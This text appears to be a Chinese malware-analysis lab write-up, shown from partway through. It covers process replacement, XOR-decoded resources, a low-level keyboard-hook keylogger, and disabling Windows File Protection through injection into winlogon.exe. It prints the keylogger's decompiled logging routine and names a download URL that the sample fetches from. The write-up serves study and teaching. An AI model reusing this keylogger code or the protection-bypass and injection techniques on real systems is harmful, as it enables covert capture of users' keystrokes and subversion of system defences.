   +0x14c PostProcessInitRoutine : Ptr32     void 
   +0x150 TlsExpansionBitmap : Ptr32 Void
   +0x154 TlsExpansionBitmapBits : [32] Uint4B
   +0x1d4 SessionId        : Uint4B
   +0x1d8 AppCompatFlags   : _ULARGE_INTEGER
   +0x1e0 AppCompatFlagsUser : _ULARGE_INTEGER
   +0x1e8 pShimData        : Ptr32 Void
   +0x1ec AppCompatInfo    : Ptr32 Void
   +0x1f0 CSDVersion       : _UNICODE_STRING
   +0x1f8 ActivationContextData : Ptr32 _ACTIVATION_CONTEXT_DATA
   +0x1fc ProcessAssemblyStorageMap : Ptr32 _ASSEMBLY_STORAGE_MAP
   +0x200 SystemDefaultActivationContextData : Ptr32 _ACTIVATION_CONTEXT_DATA
   +0x204 SystemAssemblyStorageMap : Ptr32 _ASSEMBLY_STORAGE_MAP
   +0x208 MinimumStackCommit : Uint4B
   +0x20c FlsCallback      : Ptr32 _FLS_CALLBACK_INFO
   +0x210 FlsListHead      : _LIST_ENTRY
   +0x218 FlsBitmap        : Ptr32 Void
   +0x21c FlsBitmapBits    : [4] Uint4B
   +0x22c FlsHighIndex     : Uint4B
   +0x230 WerRegistrationData : Ptr32 Void
   +0x234 WerShipAssertPtr : Ptr32 Void
   +0x238 pContextData     : Ptr32 Void
   +0x23c pImageHeaderHash : Ptr32 Void
   +0x240 TracingFlags     : Uint4B
   +0x240 HeapTracingEnabled : Pos 0, 1 Bit
   +0x240 CritSecTracingEnabled : Pos 1, 1 Bit
   +0x240 SpareTracingBits : Pos 2, 30 Bits


```

所以`lpContext->Ebx + 8`获取的是`svchost.exe`的`ImageBase`。

然后设置上下文, 并启动主线程. 需要注意的是, 程序的入口点是放在EAX寄存器中的。



代码：

```
context.Eax = dwImageBase + pNtHeaders->OptionalHeader.AddressOfEntryPoint;
SetThreadContext(pi.hThread, &context);
ResumeThread(pi.hThread);
```


使用Resource Hanker提取资源文件。直接保存成二进制文件。



使用winhex解码



计算MD5，发现和Lab12-03.exe是一样的。



1、秘密的创建一个恶意程序

2、使用了进程替换技术

3、保存在Lab12-02.exe的资源节中

4、使用了与0x41异或加密

5、与0x41异或

**实验三**

将文件使用IDA Pro打开，很明显就是一个钩子函数，第一个参数是13，意思是`WH_KEYBOARD_LL`，设置一个监视低级别键盘输入事件的挂钩程序，直接看回调函数即可。






当键盘标识符是`WM _ KEYDOWN`或者`WM _ SYSKEYDOWN`时，执行下面的逻辑，代码会获取当前窗口信息，并写入`practicalmalwareanalysis.log`文件，大量的switch语句在按下不同的按键是向文件中写入不同的信息。这是一个键盘记录器。

```
HANDLE __cdecl sub_4010C7(int Buffer)
{
  HANDLE result; // eax
  HWND v2; // eax
  DWORD v3; // eax
  DWORD v4; // eax
  DWORD v5; // eax
  HANDLE hFile; // [esp+4h] [ebp-8h]
  DWORD NumberOfBytesWritten; // [esp+8h] [ebp-4h] BYREF

  NumberOfBytesWritten = 0;
  result = CreateFileA(FileName, 0x40000000u, 2u, 0, 4u, 0x80u, 0);
  hFile = result;
  if ( result != (HANDLE)-1 )
  {
    SetFilePointer(result, 0, 0, 2u);
    v2 = GetForegroundWindow();
    GetWindowTextA(v2, Str2, 1024);
    if ( strcmp(Str1, Str2) )
    {
      WriteFile(hFile, aWindow, 0xCu, &NumberOfBytesWritten, 0);
      v3 = strlen(Str2);
      WriteFile(hFile, Str2, v3, &NumberOfBytesWritten, 0);
      WriteFile(hFile, asc_40503C, 4u, &NumberOfBytesWritten, 0);
      strncpy(Str1, Str2, 0x3FFu);
      byte_40574F = 0;
    }
    if ( (unsigned int)Buffer < 0x27 || (unsigned int)Buffer > 0x40 )
    {
      if ( (unsigned int)Buffer <= 0x40 || (unsigned int)Buffer >= 0x5B )
      {
        switch ( Buffer )
        {
          case 8:
            v4 = strlen(aBackspace);
            WriteFile(hFile, aBackspace_0, v4, &NumberOfBytesWritten, 0);
            break;
          case 9:
            WriteFile(hFile, aTab, 5u, &NumberOfBytesWritten, 0);
            break;
          case 13:
            WriteFile(hFile, aEnter, 8u, &NumberOfBytesWritten, 0);
            break;
          case 16:
            WriteFile(hFile, aShift, 7u, &NumberOfBytesWritten, 0);
            break;
          case 17:
            WriteFile(hFile, aCtrl, 6u, &NumberOfBytesWritten, 0);
            break;
          case 20:
            v5 = strlen(aCapsLock);
            WriteFile(hFile, aCapsLock_0, v5, &NumberOfBytesWritten, 0);
            break;
          case 32:
            WriteFile(hFile, asc_405074, 1u, &NumberOfBytesWritten, 0);
            break;
          case 46:
            WriteFile(hFile, aDel, 5u, &NumberOfBytesWritten, 0);
            break;
          case 96:
            WriteFile(hFile, a0, 1u, &NumberOfBytesWritten, 0);
            break;
          case 97:
            WriteFile(hFile, a1, 1u, &NumberOfBytesWritten, 0);
            break;
          case 98:
            WriteFile(hFile, a2, 1u, &NumberOfBytesWritten, 0);
            break;
          case 99:
            WriteFile(hFile, a3, 1u, &NumberOfBytesWritten, 0);
            break;
          case 100:
            WriteFile(hFile, a4, 1u, &NumberOfBytesWritten, 0);
            break;
          case 101:
            WriteFile(hFile, a5, 1u, &NumberOfBytesWritten, 0);
            break;
          case 102:
            WriteFile(hFile, a6, 1u, &NumberOfBytesWritten, 0);
            break;
          case 103:
            WriteFile(hFile, a7, 1u, &NumberOfBytesWritten, 0);
            break;
          case 104:
            WriteFile(hFile, a8, 1u, &NumberOfBytesWritten, 0);
            break;
          case 105:
            WriteFile(hFile, a9, 1u, &NumberOfBytesWritten, 0);
            break;
          default:
            break;
        }
      }
      else
      {
        Buffer += 32;
        WriteFile(hFile, &Buffer, 1u, &NumberOfBytesWritten, 0);
      }
    }
    else
    {
      WriteFile(hFile, &Buffer, 1u, &NumberOfBytesWritten, 0);
    }
    result = (HANDLE)CloseHandle(hFile);
  }
  return result;
}
```

回答：

1、这是一个键盘记录器。

2、通过`SetWindowsHookExA`设置钩子函数来实现注入自身。

3、创建了一个名为`practicalmalwareanalysis.log`的日志文件用来记录不同窗口的键盘输入。

**实验四**

使用IDA打开文件，查看导入表，有两个与资源相关的函数，查看调用。





将资源文件提取到临时文件夹，并命名为`wupdmgr.exe`。


使用`Resource Hacker`打开文件。可以看到是一个PE文件，提取资源节，另存为EXE文件



将保存的资源节文件拖进IDA Pro中分析。这里出现了两个文件

*   临时文件夹下的`winup.exe`
*   系统文件夹下的`wupdmgrd.exe`(这个文件是从`http://www.practicalmalwareanalysis.com/updater.exe`下载的)

两个文件都依次执行了。



继续分析`sub_40100`，该函数接收的参数时一个进程ID，检查此进程是不是`winlogon.exe`。



继续向下看到`sub_401174`处，此处函数先调用了`sub_4010FC`进行权限提升，然后获取`sfc_os.dll`的第二个导出函数，即`CloseFileMapEnumeration`，注入到`winlogon.exe`中。总之就是禁用windows写保护，一旦禁用保护，恶意软件就会将文件`windows directory\system32\ wupdmgr.exe` 移动到`temp\ winup.exe` 。然后它读取自己的资源@#101 并将其作为文件写入`windows directory\system32\ wupdmgr.exe` 。然后恶意软件使用 `WinExec` 执行这个新编写的二进制文件。



`scf_os.dll`的导出函数如下：

| `SfcIsKeyProtected`         | 14   | Exported Function |
| --------------------------- | ---- | ----------------- |
| `SfcTerminateWatcherThread` | 15   | Exported Function |
| `SfcInstallProtectedFiles`  | 12   | Exported Function |
| `SfcIsFileProtected`        | 13   | Exported Function |
| `SfpDeleteCatalog`          | 16   | Exported Function |
| `SRSetRestorePointA`        | 4    | Exported Function |
| `SRSetRestorePointW`        | 5    | Exported Function |
| `SfpInstallCatalog`         | 17   | Exported Function |
| `SfpVerifyFile`             | 18   | Exported Function |
| `GetNextFileMapContent`     | 3    | Exported Function |
| `SfcClose`                  | 6    | Exported Function |
| `BeginFileMapEnumeration`   | 1    | Exported Function |
| `CloseFileMapEnumeration`   | 2    | Exported Function |
| `SfcConnectToServer`        | 7    | Exported Function |
| `SfcInitiateScan`           | 11   | Exported Function |
| `SfcInitProt`               | 10   | Exported Function |
| `SfcFileException`          | 8    | Exported Function |
| `SfcGetNextProtectedFile`   | 9    | Exported Function |

`sfc_os.dll`文件在`C:\Windows\System32`文件夹下，也可以找到此文件，使用IDA Pro打开，查看导出函数。



回答：

1、恶意代码判断给定的进程是不是`winlogon.exe`进程。

2、注入的是`winlogon.exe`进程。

3、装载的是`sfc_os.dll`这个动态链接库。

4、传递的是`sfc_os.dll`的序号为二的函数指针。

5、从资源节释放文件到`wupdmgr.exe`，在此之前，将真实的`wupdmgr.exe`复制到`%Temp%`目录。

6、原来的`wupdmgr.exe`是更新windows程序的，现在资源节的恶意代码是访问一个远程地址下载恶意代码的，也就是更新自己，也是很戏剧。

## 参考资料

【conda常用命令】https://blog.csdn.net/PatrickZheng/article/details/73010232

【pyHook安装】https://blog.csdn.net/cynthrial/article/details/83684364

【KeyBoradProc用法】 (https://blog.csdn.net/qq_29020861/article/details/54865332)

【PEB介绍】https://blog.csdn.net/CSNN2019/article/details/113113347

【PE结构】https://zhuanlan.zhihu.com/p/380388396

【`sfc_os.dll`导出函数】https://strontic.github.io/xcyclopedia/library/sfc_os.dll-C4237CEC18A10250BFDEB9ECD2DD9D34.html

【禁用Windows写保护】http://www.ntcore.com/files/wfp.htm

